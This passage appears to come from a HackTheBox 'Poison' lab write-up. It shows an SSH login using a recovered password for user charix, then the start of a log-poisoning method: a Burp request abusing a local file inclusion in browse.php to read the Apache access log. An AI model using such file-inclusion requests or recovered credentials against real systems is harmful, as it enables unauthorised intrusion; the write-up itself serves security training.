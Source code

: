 Great! We have a user `charix` which is similar to the password `Charix!2#4%6&8(0`.

Now that we have the username and password, lets try `SSH`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# ssh charix@10.10.10.84                                       
The authenticity of host '10.10.10.84 (10.10.10.84)' can't be established.
ED25519 key fingerprint is SHA256:ai75ITo2ASaXyYZVscbEWVbDkh/ev+ClcQsgC6xmlrA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.84' (ED25519) to the list of known hosts.
(charix@10.10.10.84) Password for charix@Poison:Charix!2#4%6&8(0
...
charix@Poison:~ % 
```

## Method 2 - Log Poisoning

According to `phpinfo.php`, the system is running on `FreeBSD`. Lets check out where are the logs stored in this system.

Searching `freebsd web server log location` on Google resulted in this [webpage](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) which states that the log file location is at `/var/log/httpd-access.log`.

Now, lets open up BurpSuite and play around with the logs! OwO

```http
- Request - 
GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

- Response -
HTTP/1.1 200 OK
Date: Mon, 18 Jul 2022 02:32:14 GMT
Server: Apache/2.4.29 (FreeBSD) PHP/5.6.32
X-Powered-By: PHP/5.6.32
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 31507
...
10.10.14.2 - - [18/Jul/2022:03:31:39 +0200] "GET /browse.php?file=listfiles.php HTTP/1.1" 200 192 "http://10.10.10.84/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
...
```
